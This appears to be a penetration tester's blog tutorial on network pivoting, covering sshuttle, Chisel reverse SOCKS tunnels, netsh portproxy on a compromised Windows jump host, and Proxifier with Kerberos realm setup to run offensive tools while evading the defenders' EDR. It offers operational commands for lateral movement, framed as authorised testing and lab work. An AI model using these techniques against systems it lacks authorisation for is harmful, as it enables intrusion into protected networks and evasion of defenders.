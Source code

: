 ```yaml
---
published: true
---
```

Here I will be showing the easiest and most useful pivot techniques I use on penetration testing engagements as well as HackTheBox Pro Lab networks. We will not be discussing other types of pivots, including the myriad ways to bend SSH to your will as those topics are already well documented.

This article will discuss pivoting from multiple scenarios, including:

- Pivoting through a SSH host to the internal network
- Pivoting using Chisel (cross-platform tool)
- Pivoting through a Windows host using Netsh
- Pivoting a Windows attack host through a SSH connection using Proxifier (Bring Your Own Land)

## Pivoting through a SSH host to the internal network

Typically this discussion would include mention of proxychains. Proxychains will not be covered because not only is it well documented, but there are easier ways. In this case my preference is to use [Sshuttle](https://github.com/sshuttle/sshuttle). When using Sshuttle, you essentially turn a SSH connection into a VPN tunnel. I'm pretty sure that that it was Cale Black (poptart/@PastrySec) is who turned me on to this awesome resource when we were working together a few years ago.

Some scenarios where I prefer to use Sshuttle:

- Internal network pentests performed remote via a Linux laptop or virtual machine sent to the client. On boot the device connects out to an OpenVPN server and the pentester connects to SSH on the device over the VPN.
- You have compromised a host running a SSH server and need to use it to tunnel traffic to another network. In this case, Sshuttle is much easier to use than proxychains because it acts like a VPN connection and you don't need to prefix commands with 'proxychains'.

Example Sshuttle command: `sudo sshuttle -r root@<vpn server> <network> --ssh-cmd 'ssh -i /home/kali/root_key' -x <vpn server>`

Where:

- After the obvious connection string `sudo sshuttle -r root@<vpn server>`, the `<network>` is the network address we want to access on the other side of the ssh connection. If you have multiple 10.x or 192.x networks on the other side of the ssh host that you want to pivot to, you can replace the target network address with either a supernet address, or 0/0 which means tunnel everything. You can also replace this option with `-s <file>` if you want to tunnel a list of networks from a file instead of on the command line.
- The `--ssh-cmd 'ssh -i /home/kali/root_key'` option is required only if the ssh connection requires an ssh key.
- The `-x` option is always required. The -x option excludes tunneling any traffic to this address, because you don't want to tunnel traffic to the connection host and you also don't want to tunnel traffic from your local network. You can add additional -x IP or network addresses to prevent any locally connected networks from being sent through the tunnel, which would be required if you used 0/0 for the network address because you wanted to tunnel to multiple networks behind the ssh host. Each additional exclude address requires another `-x` prefix, as in `-x 192.168.150.0/24 -x 192.168.1.0/24`.
- You may want to use the `--dns` option to tunnel all DNS requests through the tunnel.

## Pivoting using Chisel

[Chisel](https://github.com/jpillora/chisel) is a fast TCP/UDP tunnel written in Golang.

We have a shell on a host and want to tunnel traffic to a network which we can't access from our Kali host such as: `<Kali> <-> <Web Server> <-> <Target Network>`

First we need to start Chisel on Kali: `./chisel server -p 8001 --reverse`

On Victim run `./chisel client <Kali IP>:8001 R:1080:socks`

Before we can use this tunnel we'll need to edit `/etc/proxychains.conf` and add `socks5 127.0.0.1 1080`.

Now when we want to proxy tools through the tunnel we precede the command with proxychains, such as `proxychains nmap -sT ...`. By the way, you'll need to specify connect scans `-sT` when running Nmap over proxychains. Don't expect it to be fast either.

In the next scenario, let's assume that we are on Kali and in addition to the `<Web Server>`, we've also compromised `<Server>` and want to proxy through it to connect to a host in an adjacent network that only this host can access, such as a PCI CDE: `<Kali> <-> <Web Server> <-> <Server> <-> <Remote network target>`

In this case, we need to go to the `<Web Server>` and run an additional Chisel command (two simultaneous Chisel processes): `./chisel server -p 8002 --reverse`

Then on the `<Server>` we run `./chisel client <Web Server>:8002 R:2080:socks`

Finally we add another line to our proxychains.conf file: `socks5 127.0.0.1 2080`

## Pivoting through a Windows host using Netsh Portproxy

In this scenario, imagine that we're on an Internal network pentest and the goal is to gain access to the PCI CDE. We've discovered a Windows jump host by recognizing the hostname includes 'jmp' or 'jump'. We have credentials that CrackMapExec tells us is an admin on the box (Pwn3d!), but we can't RDP to the box because it requires MFA. Other ports such as SMB and WinRM are exposed. Yes, I've seen this scenario on PCI pentests a few times and I always recommend that the client firewall off the ports that aren't behind MFA.

You need to be a local administrator to add and remove netsh portproxies, regardless of the bind port.

Using CrackMapExec, Evil-WinRM, PowerShell invoke-pssession, etc., run the following command: `netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=<port> connectaddress=<address> connectport=<port> protocol=tcp`

Where:

- listenaddress is the IP address to listen on (probably always 0.0.0.0).
- listenport is the port to listen on.
- connectaddress is the destination IP address.
- connectport is the destination port.
- protocol to use (always TCP).

You can check it's there with netsh interface portproxy show.

To remove the portproxy: netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444

## Pivoting a Windows attack host through a SSH connection using Proxifier

This is a technique referred to as [Bring Your Own Land (BYOL)](https://www.mandiant.com/resources/bring-your-own-land-novel-red-teaming-technique). The concept is that instead of running offensive security tools on a host covered by the Blue Team's EDR you proxy a system you own and have disabled antivirus to run your tools. In my case I normally use this technique when performing internal network pentests and I'm up against a capable Blue Team and even though it's a pentest, not a red team engagement, I don't want to get kicked and I take pride in doing my best to evade detection. We send a laptop or virtual machine running Kali to our client who plugs it into the network. After boot, it connects out to our OpenVPN server and the pentester connects to the VPN and finally ssh's into the laptop using ssh keys. Before running Proxifier, I setup my SSH connection using Putty and PuttyGen.

Note: This reuires Proxifier, which isn't free. They do provide a 31 day unrestricted trial. Also, note that I base these instructions off of the [original work](https://posts.specterops.io/proxy-windows-tooling-via-socks-c1af66daeef3) by a friend and former coworker, Nick Powers.

I won't repeat all of Nick's work here. Go and read his blog post. After reading it, I still had some issues when using runas from a non-domain joined system. On a domain joined machine it will look up the Kerberos SRV record based on the domain name the machine is joined to. Since we are not joined to the domain, the client will fail to resolve the KDC. We can work around this issue by manually registering a Kerberos realm within Windows from the attacking host machine.

Open an administrator cmd prompt and enter the following commands, substituting the domain name in all caps and domain controller fully qualified domain name:

```
ksetup /addkdc DOMAININALLCAPS [domain controller fqdn]
ksetup /setrealmflags DOMAININALLCAPS tcpsupported
```

Now restart the computer.

When you use the runas command, ensure you include the /netonly and /noprofile options. To test your settings, use the runas command `runas /netonly /noprofile /user:[domain]\[username] cmd.exe`, then net use the Domain Controller FQDN in the command `net use \\[fqdn]\netlogon`, then `dir \\[fqdn]\netlogon` and you should be able to browse files on the share and run various C# offensive tools as well as PowerShell remoting.
